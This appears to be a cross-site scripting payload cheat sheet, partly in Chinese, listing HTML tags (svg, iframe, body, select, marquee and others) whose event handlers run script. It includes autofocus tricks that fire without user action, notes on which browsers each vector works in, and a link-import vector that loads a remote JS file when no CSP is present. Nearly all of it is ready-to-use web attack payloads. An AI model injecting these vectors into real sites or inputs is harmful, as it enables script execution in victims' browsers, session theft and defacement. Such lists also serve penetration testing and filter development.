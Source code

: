 ### `<svg>`

    <svg onload=alert("xss");>

### `<select>`

    <select onfocus=alert(1)></select>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <select onfocus=alert(1) autofocus>

### `<iframe>`

    <iframe onload=alert("xss");></iframe>

### `<video>`

    <video><source onerror="alert(1)">

### `<audio>`

    <audio src=x  onerror=alert("xss");>

### `<body>`

    <body/onload=alert("xss");>

利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

    <body
    onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

### `<textarea>`

    <textarea onfocus=alert("xss"); autofocus>

### `<keygen>`

    <keygen autofocus onfocus=alert(1)> //仅限火狐

### `<marquee>`

    <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以

### `<isindex>`

    <isindex type=image src=1 onerror=alert("xss")>//仅限于IE

### 利用link远程包含js文件

**PS：在无CSP的情况下才可以**

    <link rel=import href="http://127.0.0.1/1.js">
